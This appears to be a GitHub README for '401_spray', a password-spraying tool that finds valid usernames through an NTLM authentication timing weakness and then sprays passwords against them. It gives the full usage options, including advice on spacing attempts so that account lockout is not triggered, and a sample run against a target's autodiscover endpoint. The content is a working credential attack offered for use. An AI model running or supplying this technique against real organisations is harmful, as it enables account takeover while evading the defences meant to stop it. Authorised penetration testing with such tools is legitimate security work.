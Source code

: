 # 401_spray
password spraying tool that will check for username validation using the Microsoft CAS timing vulnerability found on endpoints using NTLM authentication. Original code can be found here: https://github.com/fang0654/401_spraying. 
Simply added the following abilities to the original code:
1) to check your username list for valid entries.
2) Obtain the internal domain name tied to the NTLM Authentication using the WWW-Authenticate Header (Only tried this with one target, your milage may vary).
3) Runs the password spraying attack using usernames identified as valid.
4) Seperates the password spraying attack and username validation using the -v and -c flags. 
5) Added some additional flag options so the user isn't forced to use --threads for example (-t can be used).


```python
usage: 401_spray.py [-h] -u USERNAMES -p PASSWORDS [-d DOMAIN] -U URL [-a ATTEMPTS] [-i INTERVAL] [--authtype {ntlm,basic}] [--proxy PROXY] [-t THREADS] [-o OUTPUT] [--add_response] [-v] [-c]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAMES, --usernames USERNAMES
                        List of usernames to attack
  -p PASSWORDS, --passwords PASSWORDS
                        List of passwords to try
  -d DOMAIN, --domain DOMAIN
                        Domain name to append. If not included, then domains will be assumed to be in username list.
  -U URL, --url URL     URL to authenticate against
  -a ATTEMPTS, --attempts ATTEMPTS
                        Number of attempts to try before sleeping. If your lockout policy is 5 attempts per 10 minutes, then set this to like 3
  -i INTERVAL, --interval INTERVAL
                        Number of minutes to sleep between attacks. If your lockout policy is per 10 minutes, set this to like 11
  --authtype {ntlm,basic}
                        Authentication type - basic or ntlm. Note: You can't use a proxy with NTLM
  --proxy PROXY         Proxy server to route traffic through
  -t THREADS, --threads THREADS
                        Number of threads
  -o OUTPUT, --output OUTPUT
                        File to write successful pairs to
  --add_response        Add response times to output
  -v, --validate_users  Validates the list of usernames. By default will also run password spraying attack.
  -c, --check_creds     Runs the password spraying attack
```

Example output:
```Python
./401_spray.py -v -U https://autodiscover.<target>.com/autodiscover/autodiscover.xml -p /users/bortiz/Documents/Projects/passwords.txt -u /users/bortiz/Documents/Projects/user_names.txt -t 100 -o /users/bortiz/Documents/Projects/valid_creds.txt

New password spraying run
Spraying 1 passwords, then sleeping for 120.
URL: https://autodiscover.<target>.com/autodiscover/autodiscover.xml
[+] Domain Found: <target>
[*] Performing incorrect Domain Test
[+] auth creds: random\aaaaaaz, time elapsed: 0:00:05.048192
[+] auth creds: anything1\bbbbbbz, time elapsed: 0:00:00.309263
[+] auth creds: bread_man\ccccccz, time elapsed: 0:00:00.379083
[*] Performing incorrect Username Test
[+] auth creds: <target>\aaaaaaz, time elapsed: 0:00:07.880553
[+] auth creds: <target>\bbbbbbz, time elapsed: 0:00:03.642619
[+] auth creds: <target>\ccccccz, time elapsed: 0:00:03.653361
[+] Avg time: 0:00:05.058844
[*] Threshold: 0:00:03.035306
```
